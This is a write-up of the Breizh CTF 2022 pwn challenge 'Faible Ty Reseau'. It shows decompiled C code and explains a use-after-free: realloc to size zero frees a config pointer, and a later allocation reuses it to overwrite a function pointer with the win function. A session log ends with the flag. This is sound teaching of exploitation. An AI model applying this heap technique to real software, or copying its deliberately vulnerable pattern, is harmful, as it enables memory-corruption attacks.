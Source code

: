 ```yaml
---
createdAt: 2022-03-04                                                                       
title: "[Breizh CTF 2022 - pwn] Faible Ty Reseau"
description: "Faible Ty Réseau is a basic heap-like challenge, it allows us to create a configuration, edit it, call a function pointer on it and finally to free it."
type: 'Writeups'
tags: ["pwn"]
---
```


# [Breizh CTF 2022 - pwn] Faible Ty Reseau

Faible Ty Réseau is a basic heap-like challenge, it allows us to create a configuration, edit it, call a function pointer on it and finally to free it:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  while ( 1 )
  {
    puts(aVousN);
    printf(a1ModifierLesPa, argv);
    fflush(stdout);
    v4 = 0;
    argv = &v4;
    __isoc99_scanf(&unk_21F3, &v4);
    switch ( v4 )
    {
      case 0:
        printf("wtf ?");
        fflush(stdout);
        break;
      case 1:
        create();
        break;
      case 2:
        delete();
        break;
      case 3:
        exec();
        break;
      case 4:
        show();
        break;
      case 5:
        exit(0);
      default:
        continue;
    }
  }
}
```

They are many ways to pwn the challenge, I did it by taking advantage of the UAF in `create`:
```c
__int64 create()
{
  int v1; // [rsp+4h] [rbp-1Ch]
  int v2; // [rsp+8h] [rbp-18h]
  void *buf; // [rsp+10h] [rbp-10h]
  void *v4; // [rsp+18h] [rbp-8h]

  if ( !ptr )
  {
    ptr = malloc(0x18uLL);
    byte_4104 = 1;
  }
  buf = calloc(0x19uLL, 1uLL);
  write(1, "New hostname : ", 0x10uLL);
  v1 = read(1, buf, 0x18uLL);
  *(buf + v1) = 0;
  v4 = calloc(0x19uLL, 1uLL);
  printf("\nNew host : ");
  fflush(stdout);
  v2 = read(1, v4, 0x18uLL);
  *(v4 + v2) = 0;
  fflush(stdout);
  if ( byte_4104 != 1 )
  {
    fflush(stdout);
    realloc(ptr, v1 + v2 - 2);
    *ptr = buf;
    *(ptr + 1) = v4;
    *(ptr + 2) = sub_1259;
  }
  byte_4104 = 0;
  *ptr = buf;
  *(ptr + 1) = v4;
  *(ptr + 2) = sub_1259;
  fflush(stdout);
  alloc_admin();
  return 0LL;
}
```

As we can see, if ptr is not `NULL` and that we enter only one byte for each read (by sending only \n for example), then we will trigger a `realloc(ptr, 1 + 1 - 2)` which frees `ptr`, `ptr` being freed the freelist is pointing on `ptr`. Now let's take a look at the `alloc_admin` function:
```c
__int64 alloc_admin()
{
  char *v1; // [rsp+0h] [rbp-10h]
  char *v2; // [rsp+8h] [rbp-8h]

  fflush(stdout);
  qword_40F8 = malloc(0x18uLL);
  fflush(stdout);
  v1 = malloc(0xAuLL);
  fflush(stdout);
  strcpy(v1, "Admin");
  fflush(stdout);
  v2 = malloc(0xAuLL);
  fflush(stdout);
  strcpy(v2, "000000000");
  fflush(stdout);
  *qword_40F8 = v1;
  *(qword_40F8 + 8) = v2;
  *(qword_40F8 + 16) = win;
  fflush(stdout);
  return 0LL;
}
```

By allocating `0x18` bytes, it gets the previous freed `ptr` and writes over a few fields like the function pointer. Then we just have to call the `exec` function which will call the win function:
```c
int exec()
{
  if ( ptr )
    return (*(ptr + 2))();
  printf("Pas de configuration !");
  return fflush(stdout);
}
```

Which gives us:
```
nasm@off:~/ctf/bzhCTF/pwn$ ./FTM
Vous n'êtes pas connecté (anonyme)
1. Modifier les paramètres de connexion
2. Restaurer la configutation d'usine
3. Tester la configuration
4. Voir la configuration courante
5. Quitter (au revoir !)
>>>> 1
New hostname : dumb

New host : dumb
Vous n'êtes pas connecté (anonyme)
1. Modifier les paramètres de connexion
2. Restaurer la configutation d'usine
3. Tester la configuration
4. Voir la configuration courante
5. Quitter (au revoir !)
>>>> 1
New hostname : 

New host : 
Vous n'êtes pas connecté (anonyme)
1. Modifier les paramètres de connexion
2. Restaurer la configutation d'usine
3. Tester la configuration
4. Voir la configuration courante
5. Quitter (au revoir !)
>>>> 3
BZHCTF{9024b719d4449bc9827478e50f0279427ccb542cc3ecdec21fce38c52b29561c}
```
